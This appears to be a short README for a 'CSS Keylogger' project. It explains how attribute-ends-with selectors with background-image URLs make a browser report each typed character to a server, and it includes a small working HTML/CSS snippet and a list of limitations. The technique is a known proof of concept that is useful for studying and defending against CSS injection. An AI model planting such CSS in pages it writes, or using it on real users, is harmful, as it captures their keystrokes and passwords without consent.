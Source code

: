 # CSS Keylogger

This is a simple implementation of a keylogger using CSS.
It requires the `value` attribute to be in sync with the input value,
that is why there is a listener `oninput` in the `input` tag.

## How it works
It works by using an [attribute ends with selector](https://www.w3schools.com/cssref/sel_attr_end.asp)
and CSS background images. For instance:

```html
<style>
input[value$=a] {
  background-image: url(/char/a);
}

input[value$=b] {
  background-image: url(/char/b);
}
</style>
<!-- It has first made the request for a, and then the request for b as the user typed -->
<input type="text" value="ab">
```

### Limitations
- This implementations only listens for a-z characters. To trigger the request for more characters, just add them to the alphabet array
- If the user types fast enough, or types the same character twice, the server is not going to be notified

